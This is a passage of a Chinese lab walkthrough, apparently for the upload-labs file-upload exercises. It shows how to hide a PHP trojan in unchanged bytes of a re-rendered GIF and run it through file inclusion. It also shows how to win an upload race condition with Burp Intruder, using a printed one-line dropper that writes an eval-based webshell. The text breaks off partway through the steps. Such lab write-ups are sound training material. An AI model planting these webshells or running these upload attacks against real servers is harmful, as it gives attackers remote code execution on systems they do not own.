 
重写后会删去原图片马中的php部分，所以<font style="color:rgb(77, 77, 77);">需要找到渲染后的图片里面没有发生变化的Hex地方，添加一句话，通过文件包含漏洞执行一句话</font>

<font style="color:rgb(77, 77, 77);">一般通过.gif格式文件执行</font>

<font style="color:rgb(77, 77, 77);">将上传重写后的gif下载，通过010里面的比较工具对比</font>

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1744827355423-959e3a3f-cf72-44af-a4a4-6ca54ed27f59.png)

点击match，随便找一个公共部分插入木马即可

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1744827457467-8fb3f4b4-31dd-4254-b1fd-5e503a18bdc8.png)

直接上传然后进行文件包含

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1744827541907-cbb3ae80-d3f8-4a86-b3c3-8092cd900c88.png)

蚁剑连接，成功

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1744827558737-d19a9c7c-3db5-4993-b298-8728c448511e.png)

## Pass-17
审计代码，发现文件先从临时目录被上传到服务器之后再进行白名单的判断

**<font style="color:rgb(77, 77, 77);">先上传，后删除，中间有一个极短的窗口期，文件是在服务器中的，可以进行操作——条件竞争漏洞</font>**

**<font style="color:rgb(77, 77, 77);">在检测出不合法之前访问一次，从而生成小马</font>**

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1744891947935-1acb1ff9-72d7-496a-80a3-b764374444e2.png)

先上传含有小马的php文件，用burpsuite抓包

```plain
<?php fputs(fopen('cmd.php','w'),'<?php @eval($_POST["cmd"])?>');?>
```

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1744894003133-d645ee4d-cc95-4772-9e0f-3423fc023264.png)

右键发送到攻击模块intruder，清除payload位置

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1744894162023-6f347e0b-5571-4446-b56d-e4b7e11bc5eb.png)

设置payload类型为null，无限重复

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1744894576330-312e2bac-63f5-4990-911a-b81ba7c9ed30.png)

设置线程为20，间隔为0

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1744895692350-9e307bdb-058a-45fb-8a61-8c2e2b665573.png)

访问race.php并抓包，发送到intruder

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1744896604489-37ada488-8463-4ecf-acd5-65e8893b8ff5.png)

修改payload类型和线程
